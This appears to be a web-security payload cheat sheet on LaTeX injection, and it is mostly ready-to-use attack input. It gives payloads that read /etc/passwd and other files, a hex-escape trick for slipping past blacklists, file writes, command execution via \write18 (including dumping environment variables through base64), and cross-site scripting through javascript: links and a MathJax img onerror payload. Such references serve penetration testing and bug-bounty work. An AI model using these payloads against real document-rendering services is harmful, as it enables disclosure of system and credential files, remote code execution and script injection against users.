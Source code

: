 # LaTex Injection

You might need to adjust injection with wrappers as `\[` or `$`.

## Read file

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

## Write file

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## Command execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

in [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```


## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
